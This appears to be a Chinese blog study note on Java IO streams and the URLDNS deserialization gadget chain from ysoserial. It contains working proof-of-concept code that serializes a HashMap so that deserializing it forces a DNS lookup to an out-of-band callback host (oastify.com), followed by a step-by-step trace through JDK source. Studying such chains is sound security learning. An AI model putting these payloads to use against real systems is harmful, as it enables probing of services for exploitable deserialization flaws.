

## 一、Java-IO 流

### 什么是 IO 流

Java 程序是在内存中工作的，数据需要先读入内存才能被处理，这就是**输入流（Input）**；内存具有易失性，无法长期保存数据，处理完后再写出去，这就是**输出流（Output）**。二者合称 Java 的 IO 流。

Java IO 流的四个抽象类：

| 类型   | 输入            | 输出             |
| ------ | --------------- | ---------------- |
| 字节流 | `InputStream`   | `OutputStream`   |
| 字符流 | `Reader`        | `Writer`         |

## 二、URLDNS 链

URLDNS 是 ysoserial 里最简单的一条 Java 反序列化利用链，仅依赖 JDK 内置类（`HashMap` + `URL`），无需任何第三方库。原理是：反序列化时触发 `HashMap` 对 key 的 hash 计算，最终调用到 `URL` 的 DNS 解析，让目标发起一次 DNS 请求，用于验证反序列化漏洞是否存在。

### 1. 复现代码

```java
import java.io.*;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class URLDNSDemo {
    public static void main(String[] args) throws Exception {
        // 创建 hashmap
        HashMap<URL, String> map = new HashMap<>();

        // 创建 URL，指向 dnslog 监听地址
        URL url = new URL("http://389bc0vjl0yj9vgj73x0nk8970ds1ip7.oastify.com");

        // 通过反射获取 URL 的私有字段 hashCode
        Field field = URL.class.getDeclaredField("hashCode");
        field.setAccessible(true);

        // 关键：put 之前先把 hashCode 设为非 -1，避免 put 时直接触发 DNS 解析
        field.set(url, 123456);

        // 将 URL 对象放入 hashmap
        map.put(url, "test");

        // 序列化之前再改回 -1，让反序列化时能走到 DNS 解析分支
        field.set(url, -1);

        // 序列化
        ObjectOutputStream oos =
                new ObjectOutputStream(new FileOutputStream("urldns.ser"));
        oos.writeObject(map);
        oos.close();

        System.out.println("序列化完成");

        // 反序列化
        ObjectInputStream ois =
                new ObjectInputStream(new FileInputStream("urldns.ser"));
        Object obj = ois.readObject();
        ois.close();

        System.out.println("反序列化完成：" + obj.getClass());
    }
}
```

### 2. 复现结果

成功出现 DNS 解析记录：



### 3. 利用链分析

#### 第一步：put 入口

当程序运行到 `map.put(url, "test")` 时，跟进 `put` 方法，发现它对 key 做了 hash 操作：

```java
public V put(K key, V value) {
    return putVal(hash(key), key, value, false, true);
}
```

#### 第二步：hash 计算

跟进 `hash` 方法，只要 key 不为 null，就调用 `key.hashCode()` 计算哈希值：

```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```

#### 第三步：URL.hashCode

跟进 `hashCode` 方法，发现**只有当 hashCode 为 -1 时才会触发 DNS 查询**：

```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

> 这正是前面反射处理 hashCode 的原因：put 前设成非 -1 让 hash 计算「短路」，序列化前再改回 -1，把「触发」留给反序列化。

#### 第四步：反序列化入口 readObject

反序列化的入口是 `readObject`：

```java
ObjectInputStream ois =
        new ObjectInputStream(new FileInputStream("urldns.ser"));
Object obj = ois.readObject();
ois.close();
```

这是 `HashMap` 类自己重写的 `readObject`，我们进入 HashMap 源码：

```java
private void readObject(ObjectInputStream s)
    throws IOException, ClassNotFoundException {

    ObjectInputStream.GetField fields = s.readFields();

    // Read loadFactor (ignore threshold)
    float lf = fields.get("loadFactor", 0.75f);
    if (lf <= 0 || Float.isNaN(lf))
        throw new InvalidObjectException("Illegal load factor: " + lf);

    lf = Math.min(Math.max(0.25f, lf), 4.0f);
    HashMap.UnsafeHolder.putLoadFactor(this, lf);

    reinitialize();

    s.readInt();                // Read and ignore number of buckets
    int mappings = s.readInt(); // Read number of mappings (size)
    if (mappings < 0) {
        throw new InvalidObjectException("Illegal mappings count: " + mappings);
    } else if (mappings == 0) {
        // use defaults
    } else if (mappings > 0) {
        float fc = (float)mappings / lf + 1.0f;
        int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                   DEFAULT_INITIAL_CAPACITY :
                   (fc >= MAXIMUM_CAPACITY) ?
                   MAXIMUM_CAPACITY :
                   tableSizeFor((int)fc));
        float ft = (float)cap * lf;
        threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                     (int)ft : Integer.MAX_VALUE);

        // Check Map.Entry[].class since it's the nearest public type to
        // what we're actually creating.
        SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
        @SuppressWarnings({"rawtypes","unchecked"})
        Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
        table = tab;

        // Read the keys and values, and put the mappings in the HashMap
        for (int i = 0; i < mappings; i++) {
            @SuppressWarnings("unchecked")
                K key = (K) s.readObject();
            @SuppressWarnings("unchecked")
                V value = (V) s.readObject();
            putVal(hash(key), key, value, false, false);
        }
    }
}
```

可以看到最后一行 `putVal(hash(key), ...)`，这里又调用了 `hash`，**这就是反序列化时的触发入口**。后续就与 put 时的流程一样，进入 URL 类的 hashCode 检查：

```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```

#### 第五步：handler 的 hashCode

此时 hashCode 为 -1，走到 `handler.hashCode(this)`。`handler` 是 `URLStreamHandler` 类型的字段：

```java
transient URLStreamHandler handler;

/* Our hash code. */
private int hashCode = -1;

private transient UrlDeserializedState tempState;
```

具体的协议 Handler（如 HTTP）没有重写 `hashCode`，所以调用的是父类 `URLStreamHandler` 里的实现：

```java
protected int hashCode(URL u) {
    int h = 0;

    // Generate the protocol part.
    String protocol = u.getProtocol();
    if (protocol != null)
        h += protocol.hashCode();

    // Generate the host part.
    InetAddress addr = getHostAddress(u);
    if (addr != null) {
        h += addr.hashCode();
    } else {
        String host = u.getHost();
        if (host != null)
            h += host.toLowerCase().hashCode();
    }

    // Generate the file part.
    String file = u.getFile();
    if (file != null)
        h += file.hashCode();

    // Generate the port part.
    if (u.getPort() == -1)
        h += getDefaultPort();
    else
        h += u.getPort();

    // Generate the ref part.
    String ref = u.getRef();
    if (ref != null)
        h += ref.hashCode();

    return h;
}
```

#### 第六步：getHostAddress 触发 DNS

上面 host 部分的计算调用了 `getHostAddress(u)`：

```java
protected InetAddress getHostAddress(URL u) {
    return u.getHostAddress();
}
```

进一步跟进 `URL.getHostAddress()`：

```java
synchronized InetAddress getHostAddress() {
    if (hostAddress != null) {
        return hostAddress;
    }

    if (host == null || host.isEmpty()) {
        return null;
    }
    try {
        hostAddress = InetAddress.getByName(host);
    } catch (UnknownHostException | SecurityException ex) {
        return null;
    }
    return hostAddress;
}
```

其中的 `InetAddress.getByName(host)` 就是发起 DNS 解析的关键调用。

### 4. 调用链总结

```text
HashMap.readObject()
    └── hash(key)
        └── URL.hashCode()                 // hashCode == -1 才继续
            └── URLStreamHandler.hashCode(URL)
                └── URL.getHostAddress()
                    └── InetAddress.getByName(host)   // 触发 DNS 查询
```

### 5. 环境与注意事项

| 事项 | 说明 |
| --- | --- |
| JDK 版本 | JDK 8 直接可用；JDK 17+ 需加 `--add-opens java.base/java/net=ALL-UNNAMED` |
| DNS 监听平台 | 可用 dnslog.cn（免费）或 Burp Collaborator（`*.oastify.com`，需专业版） |
| 反射处理 | put 前设非 -1（防提前触发），序列化前改回 -1（留给反序列化触发） |
| ser 文件可复用 | 每次 `readObject()` 都会重新触发一次 DNS；同一 JVM 内因 `InetAddress` 缓存可能只触发一次 |

---

**本系列笔记：** [Java安全学习](/2026/11/01/java-security-urldns/) · [Java 反序列化漏洞：CommonsCollections1（CC1）学习笔记](/2026/11/01/cc1-study-notes/) · [cc1链学习](/2026/11/01/cc1-transformedmap/) · [正版cc1链学习](/2026/11/01/cc1-lazymap/) · [cc3链学习](/2026/11/01/cc3-classloading/) · [cc6链学习](/2026/11/01/cc6-study/) · [cc4链的学习](/2026/11/06/cc4-study/)
